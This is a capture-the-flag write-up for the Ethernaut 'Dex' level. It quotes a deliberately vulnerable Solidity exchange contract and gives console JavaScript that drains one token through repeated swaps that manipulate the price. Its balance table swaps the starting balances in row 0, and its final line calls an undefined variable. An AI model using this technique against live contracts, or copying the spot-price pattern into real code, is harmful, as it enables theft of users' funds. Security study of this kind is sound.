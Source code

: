 ```yaml
---
layout: post
title: Ethernaut - 22. Dex
date:  2022-08-30
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌑🌑🌑
> The goal of this level is for you to hack the basic [DEX](https://en.wikipedia.org/wiki/Decentralized_finance#Decentralized_exchanges) contract below and steal the funds by price manipulation. <br />
You will start with 10 tokens of `token1` and 10 of `token2`. The DEX contract starts with 100 of each token.<br />
You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.<br /><br />
### Quick note<br />
Normally, when you make a swap with an ERC20 token, you have to `approve` the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the `approve` method to the contract itself. So feel free to use `contract.approve(contract.address, <uint amount>)` instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the `SwappableToken` contract otherwise.<br />
Things that might help:
- How is the price of the token calculated?
- How does the `swap` method work?
- How do you `approve` a transaction of an ERC20?

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract Dex is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## Writeup
The vulnerable part of this level is method `getSwapPrice`, which doing a simple division without dealing with decimal point. It let hackers drain all token from the contract easily.

1. Get new instance.
2. Approve.
    ``` javascript

    await contract.approve(contract.address, 10000)
    await contract.approve('YOUR_ACCOUNT_ADDRESS', 10000)

    ```
3. Get token address.
    ``` javascript

    const t1 = await contract.token1()
    const t2 = await contract.token2()

    ```
4. Swap

    |   |  from  | to  | amount  | swapAmount | player token1 | player token2  | dex token1 | dex token2 | 
    |---|---|---|---|---|---|---|---|---|
    | 0  |   |  |   |   | 100  | 100 | 10 | 10 |
    | 1 | t1 | t2  | 10 | 10  | 0 |  20 | 110  | 90 |
    | 2 | t2 | t1  | 20 | 24  | 24 | 0 | 86  | 110  |
    | 3 | t1 | t2  | 24 | 30  | 0 | 30 | 110  | 80  |
    | 4 | t2 | t1  | 30  | 41  | 41 | 0 |  69 | 110 |
    | 5 | t1  |  t2 | 41  | 65  | 0  | 65  | 110  | 45  |
    | 6 |  t2 | t1  | 45  |  110 | 110  | 20  | 0 | 90  |
    
   ``` javascript

   await contract.swap(t1, t2, 10)

   await contract.swap(t2, t1, 20)

   await contract.swap(t1, t2, 24)

   await contract.swap(t2, t1, 30)

   await contract.swap(t1, t2, 41)

   await contract.getSwapPrice(t2, t1, 45).then(v=>v.toString())
   // 110 = contract's token1 balance!

   await contract.swap(t2, t1, 45)

   await contract.balanceOf(token1, contract.address).then(v=>v.toString())
   // 0 

   ```
5. Submit instance ξ( ✿＞◡❛)